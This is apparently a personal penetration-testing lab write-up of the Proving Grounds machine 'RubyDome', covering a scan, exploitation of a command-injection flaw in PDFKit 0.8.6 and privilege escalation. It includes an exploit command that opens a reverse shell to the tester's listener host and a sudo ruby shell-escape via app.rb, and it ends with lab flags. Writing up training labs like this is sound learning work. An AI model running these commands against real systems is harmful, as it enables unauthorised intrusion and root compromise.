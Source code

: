 ```yaml
---
Date: 2024-10-06
Platform: PG-Practice
Category: Linux
Difficulty: Easy
Status: Complete
IP: 192.168.228.22
Writeup: https://r4j3sh.medium.com/rubydome-pg-practice-writeup-7749fe58bbe5
---
```

# RubyDome
Frustrating that a couple of key points in this box were only broken through with the use of the walkthrough. Throwing `127.0.0.1` into the website to break it was a new one (something to keep in mind for the future) but I'd have never worked out without the walkthrough. 

Likewise the exploit initially appeared to be working perfectly but wasn't catching a shell, and it turned out I had to add "pdf" onto the end of the target web address.

Finally, abusing binary privileges turned out to be a weird one too, as I had to add the command to the `app.rb` file and then execute from the sudo binary. Awesome that it worked, and another one to keep in mind for the future, but I'm doing my best not to lean to heavily on walkthroughs at the moment, and this makes it feel like I am.
# Resolution summary
- Ran Nmap to find services on port 22 & 3000
- Inspected html on port 3000, found HTML to PDF service
- Found error by entering `127.0.0.1` to identify vulnerable service (PDFKit 0.8.6)
- Identified and ran command injection exploit to catch reverse shell
- Enumerated `andrew` user, identified `sudo` privileges for `ruby`
- Used GTFObins to identify privesc vector by writing bash command to `app.rb` 
- Executed `app.rb` with `sudo` to become `root`
## Improved skills
- skill 1
- skill 2
## Used tools
- nmap
- GTFOBins
- Searchsploit

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN rubydome.nmap 192.168.228.22 -v
```

Enumerated open TCP ports:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: RubyDome HTML to PDF
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 8.9p1)

## Port 3000 - HTTP (WEBrick 1.7.0 / Ruby 3.0.2)
- Navigated to `http://192.168.228.22:3000/`
![[Pasted image 20241006133635.png]]
- Attempted to get PDF for `http://127.0.0.1`, received error for `PDFKit`
![[Pasted image 20241006134352.png]]
- Identified PDFKit version (0.8.6) (required expanding "Backtrace" details)
- Identified PDFKit uses url for POST parameter
![[Pasted image 20241006135551.png]]
---
# Exploitation
## Command Injection
PDFKit 0.8.6 is vulnerable to command injection (CVE-2022–25765), then identified exploit `51293.py` is available to use command injection to create a reverse shell.
- Ran exploit command;
  `python3 51293.py -s 192.168.45.175 80 -w http://192.168.228.22:3000/pdf -p url`
  ![[Pasted image 20241006140548.png]]
- Caught reverse shell as `andrew` with Netcat listener
![[Pasted image 20241006140629.png]]

---
# Lateral Movement to user
## Local Enumeration
- Upgrade to full TTY, moved to `andrew` home directory, printed `local.txt`
![[Pasted image 20241006140943.png]]
- Ran `cat /etc/passwd` to also find `offsec` user
![[Pasted image 20241006141118.png]]
- Ran `sudo -l` to find `andrew` has sudo privilege for `/usr/bin/ruby`
![[Pasted image 20241006141248.png]]
- Ran `ls -lah` inside `/app` directory and identified `andrew` has `rwx` privilege over `app.rb`
![[Pasted image 20241006144015.png]]
---
# Privilege Escalation
## Sudo Binary - GTFOBins
- Identified `andrew` has sudo privilege of `/home/andrew/app/app.rb`, and relevant binary vulnerability found on GTFObins
![[Pasted image 20241006144115.png]]
- Echoed `exec "/bin/sh"` into `app.rb` 
![[Pasted image 20241006144334.png]]
- Ran `app.rb` as Sudo to achieve `root`
![[Pasted image 20241006144355.png]]

---
# Trophy & Loot
`local.txt` = `a779352dd3270666856f7cbd34073f4b`
`root.txt` = `78aba0e8e3abe4e15304b6fda4649006`
![[Pasted image 20241006144618.png]]